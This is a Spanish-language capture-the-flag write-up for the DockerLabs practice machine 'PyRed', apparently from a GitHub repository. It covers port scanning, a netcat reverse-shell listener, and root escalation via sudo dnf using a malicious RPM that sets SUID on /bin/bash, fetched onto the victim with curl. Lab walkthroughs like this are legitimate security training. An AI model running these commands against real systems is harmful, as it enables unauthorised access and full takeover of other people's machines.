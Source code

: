 # [PyRed](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pyred.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **5000**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/70ead140-7cd7-425c-b752-91af435f17ca)

<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 5000 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:5000` ya que es el puerto 5000 el que aloja este servidor Web. Podemos ver u cuadro de texto que nos permite ejecutar código de python:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cc47a583-053b-47ea-b3ac-60a40ec4e529)

<br>

Sabiendo esto probamos a ejecutar el siguiente código:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f021600-a07d-4d7f-ab8e-2fd5f06f90e6)

<br>

Este código de python nos permite ejecutar comandos gracias a '`os.system`, por lo que una vez que sabemos esto pasaremos a mandarnos una revshell. En primer lugar nos ponemos en escucha por el puerto 443 con `nc -nlvp 443`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6c6cee8b-6d9d-42f6-a3dc-97ebfe452a05)

<br>

En segundo lugar, debemos ejecutar un código en la web el cual nos mande una revshell, que sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/26e67216-520f-4840-bbd4-e4ff2405e8c6)

<br>

 > Una página muy útil para las revshell sería [esta](https://www.revshells.com/).

<br>

Y si nos dirigimos a nuestra terminal por donde estamos en escucha habremos recibido una shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c7857125-e53e-43ab-b728-faabee59cc57)

<br>
<br>

## Escalada de Privilegios

He intentado hacer el Tratamiento de la TTY pero la bash se me petaba ya que no estaba instalado el comando script, por lo que tendremos que apañarnos sin el Tratamiento.
<br>

Vemos que hemos ingresado a la máquina como el usuario **primpi**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1cb8ddcf-33fc-4755-8871-5b328dc2ec26)

<br>

Si ejecutamos `sudo -l` podemos ver que podemos ejecutar `/usr/bin/dnf` sin proporcionar contraseña y poder escalar a **root**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d057bbe9-a595-435c-a090-da08e62c96b5)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dba9732a-08af-4d4c-9ee5-d4b103148160)

<br>

Por lo que en primer lugar debemos crear un paquete rmp personalizado en nuestra máquina de atacante, para ellos debemos seguir los siguientes pasos:
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `TF=$(mktemp -d)`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `echo 'chmod +s /bin/bash' > $TF/x.sh`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF`
<br>

 > Si no tenemos instalado fpm, debemos instalarlo con `gem install fpm`
<br>

Una vez que tenemos el paquete creado:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4967dfd2-e5c4-4554-a87b-de27806835d6)

<br>

Nos lo compartiremos con la máquina víctima a través de un servido de python, de la siguiente manera `python3 -m http.server 80`, y en la máquina víctima hacemos un `curl 172.17.0.1/x-1.0-1.noarch.rpm -o x-1.0-1.noarch.rpm` para obtener el paquete
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6495f01d-fa2e-4f3d-82bd-662f29fbf6dc)

<br>

 > Si te da un error como este, recuerda que debes estar en un directorio donde tengas capacidad de escritura ![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6215d2b9-efe9-4228-bb88-54c37cd16227)

<br>

Por lo que ejecutaríamos el siguiente comando `sudo -u root dnf install -y x-1.0-1.noarch.rpm`, y comprobamos que tenemos el permiso SUID en la `/bin/bash`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ee75c5a4-8462-4932-b4b3-2854dbff3ac5)

<br>

Por lo que ahora haremos `/bin/bash -p`, y listo ya seremos `root`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5fc29cef-97d8-413c-987e-c90451029901)
